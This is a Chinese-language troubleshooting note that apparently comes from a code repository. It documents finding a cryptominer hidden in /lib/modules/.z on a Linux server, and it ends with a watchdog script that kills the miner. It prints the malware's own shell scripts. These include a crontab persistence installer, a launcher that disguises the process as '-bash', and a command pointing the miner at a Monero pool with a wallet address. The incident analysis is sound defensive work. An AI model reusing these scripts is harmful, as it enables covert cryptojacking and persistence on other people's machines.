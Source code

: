# 查杀挖矿机进程md
用`top`命令查看到md（占用cpu近100%）的PID是4444（假设是这个数字）
每个PID都会有文件夹`/proc/PID`, 所以
```
[root@localhost ~]# cd /proc/4444
[root@localhost 4444]# ll
-r--------. 1 Hazard Liulab        304 Nov 22 20:24 auxv
--w-------. 1 Hazard Liulab          0 Nov 22 20:24 clear_refs
-r--r--r--. 1 Hazard Liulab        414 Nov 22 20:24 cmdline
-rw-r--r--. 1 Hazard Liulab          3 Nov 22 20:24 comm
lrwxrwxrwx. 1 Hazard Liulab         15 Nov 22 20:24 cwd -> /lib/modules/.z
-r--------. 1 Hazard Liulab       3799 Nov 22 20:24 environ
lrwxrwxrwx. 1 Hazard Liulab         18 Nov 22 20:24 exe -> /lib/modules/.z/md
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fd
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fdinfo
-rw-------. 1 Hazard Liulab       1323 Nov 22 20:24 limits
-r--r--r--. 1 Hazard Liulab      16529 Nov 22 20:24 maps
-rw-------. 1 Hazard Liulab          0 Nov 22 20:24 mem
-r--r--r--. 1 Hazard Liulab       1489 Nov 22 20:24 mountinfo
-r--r--r--. 1 Hazard Liulab       1278 Nov 22 20:24 mounts
dr-x--x--x. 2 Hazard Liulab       4096 Nov 22 20:24 ns
-r--r--r--. 1 Hazard Liulab      10351 Nov 22 20:24 numa_maps
-r--r--r--. 1 Hazard Liulab 2823852032 Nov 22 20:24 pagemap
-r--r--r--. 1 Hazard Liulab          9 Nov 22 20:24 personality
lrwxrwxrwx. 1 Hazard Liulab          1 Nov 22 20:24 root -> /
-rw-r--r--. 1 Hazard Liulab       2403 Nov 22 20:24 sched
-r--r--r--. 1 Hazard Liulab     130825 Nov 22 20:24 smaps
-r--r--r--. 1 Hazard Liulab        233 Nov 22 20:24 stat
-r--r--r--. 1 Hazard Liulab         34 Nov 22 20:24 statm
-r--r--r--. 1 Hazard Liulab        936 Nov 22 20:24 status
-r--r--r--. 1 Hazard Liulab         67 Nov 22 20:24 syscall
```     
重点关注`cmdline` 和 `exe`, `cwd` 等  
`cwd` 指向 `/lib/modules/.z` (这个目录里放着挖矿的程序)  
`exe` 指向 `/lib/modules/.z/md` (这个就是占用100%cpu的家伙)  
```
[root@localhost 4444]# cat cmdline
-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777......(我给省略了一些字符，(￣▽￣)")
```
这里看到这些字样，`pool.minexmr.com` 基本上跟挖矿有关了   
```
[root@localhost 4444]# cd /lib/modules/.z/
[root@localhost .z]# ll
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```   
 `h32`, `h64`, `md`, `mdx`都是二进制文件  
 我们可以从`a`, `run`, `x` 三个文件里看到些端倪  
```
[root@localhost .z]# cat a 
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 `cron.d` 和 `upd` 文件都没有找到，使用`locate` 命令，也没有搜索到，  
 使用`kill 4444` 之后，停几个小时，`md`会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用`crontab -l` 查看没有定时任务（无语）  
```
[root@localhost .z]# cat run  
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
```
[root@localhost .z]# cat x
nohup ./a >>/dev/null &
```
-------------
# 暂时的解决方法
 无奈只能曲线救国，写了一个守护进程，一旦看到`md`运行就`kill`掉它   
 其中`ps -ef` 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
 
 把下面的代码复制到`watchMD.sh`中（记得改一下里面`file_name`的路径），  
 然后`nohup sh watchMD.sh &`即可每隔`2s`监控一次，碰到`md`就杀  
 改一下`proc_name`（支持正则表达式），可以神挡杀神
```
#!/bin/sh
proc_name="^md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | awk '{print $3}'`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done
```
